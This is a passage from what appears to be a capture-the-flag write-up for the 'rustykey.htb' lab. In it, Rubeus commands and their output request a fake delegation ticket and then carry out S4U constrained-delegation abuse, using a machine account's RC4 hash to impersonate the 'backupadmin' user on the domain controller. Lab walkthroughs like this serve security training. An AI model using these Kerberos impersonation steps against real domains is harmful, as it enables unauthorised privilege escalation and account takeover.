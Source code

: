 ```sh
# Use the hash to generate our ticket with delegation from that user, as mm.turner who has access to set the principal
PS C:\Windows> C:\Windows\Temp\Rubeus.exe tgtdeleg /user:it-computer3$ /rc4:B52B582F02F8C0CD6320CD5EAB36D9C6 /domain:rustykey.htb /domaincontroller:dc.rustykey.htb /nowrap

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.3 


[*] Action: Request Fake Delegation TGT (current user)

[*] No target SPN specified, attempting to build 'cifs/dc.domain.com'
[*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/dc.rustykey.htb'
[+] Kerberos GSS-API initialization success!
[+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
[*] Found the AP-REQ delegation ticket in the GSS-API output.
[*] Authenticator etype: rc4_hmac
[*] Extracted the service ticket session key from the ticket cache: yMerBMOlnsWJf7CxhFDAaA==
[+] Successfully decrypted the authenticator
[*] base64(ticket.kirbi):

      doIFkDCCBYygAwIBBaEDAgEWooIEpDCCBKBhggScMIIEmKADAgEFoQ4bDFJVU1RZS0VZLk<snip>wNjU1MTVaqA4bDFJVU1RZS0VZLkhUQqkhMB+gAwIBAqEYMBYbBmtyYnRndBsMUlVTVFlLRVkuSFRC

# And finally s4u proxy auth all of ti together to generate our final impersonation ticket
PS C:\Windows> 
C:\Windows\Temp\Rubeus.exe s4u /user:it-computer3$ /rc4:B52B582F02F8C0CD6320CD5EAB36D9C6 /impersonateuser:backupadmin /msdsspn:cifs/dc.rustykey.htb /domain:rustykey.htb /dc:dc.rustykey.htb /nowrap

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.3 

[*] Action: S4U

[*] Using rc4_hmac hash: B52B582F02F8C0CD6320CD5EAB36D9C6
[*] Building AS-REQ (w/ preauth) for: 'rustykey.htb\it-computer3$'
[*] Using domain controller: fe80::e5b9:1d07:4258:53f5%11:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFmDCCBZSgAwIBBaEDAgEWooIEqDCCBKRhggSgMIIEnKADAgEFoQ4bD<snip>hsGa3JidGd0GwxydXN0eWtleS5odGI=


[*] Action: S4U

[*] Building S4U2self request for: 'it-computer3$@RUSTYKEY.HTB'
[*] Using domain controller: dc.rustykey.htb (fe80::e5b9:1d07:4258:53f5%11)
[*] Sending S4U2self request to fe80::e5b9:1d07:4258:53f5%11:88
[+] S4U2self success!
[*] Got a TGS for 'backupadmin' to 'it-computer3$@RUSTYKEY.HTB'
```